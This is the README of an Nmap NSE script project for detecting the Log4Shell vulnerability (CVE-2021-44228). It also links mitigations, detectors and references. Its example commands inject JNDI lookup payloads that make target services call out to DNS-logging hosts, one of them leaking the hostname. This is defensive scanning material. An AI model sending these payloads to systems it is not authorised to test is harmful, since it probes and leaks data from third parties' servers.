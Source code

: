 # nse-log4shell

Nmap NSE scripts to check against log4shell or LogJam vulnerabilities (CVE-2021-44228).
NSE scripts check most popular exposed services on the Internet. It is basic script where you can customize payload.


### Examples

Note that NSE scripts will only issue the requests to the services. Nmap will not report vulnerable hosts, but you have to check DNS logs to determine vulnerability.
Also note that DNS resolution with prefixes combination in a expression for log4j-core <= 2.7 seems not supported. So, testing with something like ```${java:os}``` could lead to false negatives.
Therefore, better to have few false positives than negatives.

Windows Example (Thanks to @ZedFuzz) - note how to [escape the quotes](https://nmap.org/book/nse-usage.html#nse-args):
```
nmap -v --script=http-log4shell,ssh-log4shell,imap-log4shell "--script-args=log4shell.payload=\"${jndi:ldap://{{target}}.xxxx.dnslog.cn}\"" -T4 -n -p22,80 --script-timeout=1m scanme.nmap.org
```

### By help of logdns (custom DNS logging server)

Go to http://github.com/kost/logdns and get DNS server. Get domain and point to the somewhere where you have installed logdns:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.logdns.xxx}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```
### By help of dnslog.cn

Go to http://dnslog.cn/ and Get SubDomain. Replace your xxxx with your SubDomain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.dnslog.cn}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of burpcollaborator

Take your domain from Burp collaborator and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://{{target}}.xxxx.burpcollaborator.net/diverto}"' -T4 -n -p0-65535 --script-timeout=1m MY.IPs.TO.SCAN
```

### By help of CanaryToken (https://canarytokens.org/generate#)

Take your Token from CanaryToken and replace xxxx with your domain:

```
nmap --script=http-log4shell,ssh-log4shell,imap-log4shell  '--script-args=log4shell.payload="${jndi:ldap://x${hostName}.L4J.xxxx.canarytokens.com/a}"' -T4 -n -pssh,imap*,http* --script-timeout=1m MY.IPs.TO.SCAN
```

# Solution/Fixes

List of best fixes and workarounds.

## Best fix

Best solution to protect from CVE-2021-44228:
Start your server with log4j2.formatMsgNoLookups set to true, or update to log4j-2.15.0-rc1 or later.

# References

General references and links to the vulnerability

## General

[Reddit thread](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/) - General information about log4shell

[NCC log4shell](https://github.com/NCSC-NL/log4shell) - operational information regarding the vulnerability (IOCs, mitigation, scanning, software)

## Related

[BlueTeam CheatSheet Log4Shell](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) - Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)

[Software List - cheat-sheet reference guide](https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/) - Affected software list by vendor responses

## Testing

[lo4shell.huntress.com](https://log4shell.huntress.com/) - Online Log4Shell Vulnerability Tester

[log4j yara](https://github.com/timb-machine/log4j) - yara rules for local detection

[identify-log4j-class-location.sh](https://gist.github.com/righettod/ce1570954242de2f8772c6f25eece77d) - Script to identify Log4J affected class for CVE-2021-44228 in a collection of ear/war/jar files

## Exploitation

[PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words) - A trick to bypass words blocking patches

## Exploitation Detection

[log4shell-detector](https://github.com/Neo23x0/log4shell-detector) - Detector for Log4Shell exploitation attempts

[Log4Shell-IOCs](https://github.com/curated-intel/Log4Shell-IOCs) - a list of IOC feeds and threat reports

[log4j_rce_detection.md](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b) - You can use these commands and rules to search for exploitation attempts 

## Mitigation/Fixing

[log4j advisory](https://logging.apache.org/log4j/2.x/security.html) - Apache Log4j Security Vulnerabilities

[log4j pull request and comments](https://github.com/apache/logging-log4j2/pull/608) - pull request that fixes bug with comments

[Logout4Shell](https://github.com/Cybereason/Logout4Shell) - Quick and dirty alternative to patching manually

